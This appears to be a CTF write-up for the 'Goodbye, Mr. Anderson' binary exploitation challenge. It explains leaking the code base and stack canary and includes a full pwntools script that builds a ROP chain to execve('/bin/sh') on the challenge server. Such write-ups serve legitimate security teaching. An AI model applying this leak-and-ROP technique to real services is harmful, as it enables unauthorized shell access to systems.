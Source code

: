### Goodbye, Mr. Anderson (300 Points)

> Do it again Neo. Cheat death.
>
> [attachment](leaks-c85e4a348b2a07ba8e6484d69956d968)

This program has four input and three output:

- The first input is stored in .bss, so we can input the "/bin/sh" . 

- Than use the second input and output to leak the .text address. 
  - if we have .text segment address, we can get address of "bin/sh" and get address of gadgets in the .text segment. such as `pop rdi; ret`,`pop rax;syscall` 
- The third input and output are used to leak the canary value.
- Now, we can use the last input lay out the stack to ROP (call execve syscall).

#### exploit script

```python
from pwn import *
context.log_level='debug'

#p = process('leaks-c85e4a348b2a07ba8e6484d69956d968')

p = remote('chal.ctf.b01lers.com',1009)
elf = ELF('./leaks-c85e4a348b2a07ba8e6484d69956d968')
libc = elf.libc

# gdb.attach(p)
p.recvuntil('Mr. Anderson.\n')

p.sendline('8')
p.sendline('/bin/sh\x00')


p.sendline('8')
p.sendline('C'*8)

p.recvuntil('C'*8)
code_base = u64(p.recv(6).ljust(8,'\x00'))-0x110a
print hex(code_base)


p.sendline('24')
p.sendline('A'*24)
#gdb.attach(p,'b printf')
p.recvuntil('A'*24)
canary = u64(p.recv(8))-0xa
print hex(canary)


pop_rdi = code_base+0x00000000000013f3
pop_rsi_15 = code_base + 0x00000000000013f1

payload = 'A'*0x18
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(code_base+elf.sym['name'])
payload += p64(pop_rsi_15)
payload += p64(0)
payload += p64(0)
payload += p64(code_base+elf.sym['yay']+8) # pop rax;syscall
payload += p64(0x3b)

p.sendline(str(len(payload)))
# gdb.attach(p)
p.sendline(payload)


p.interactive()
```

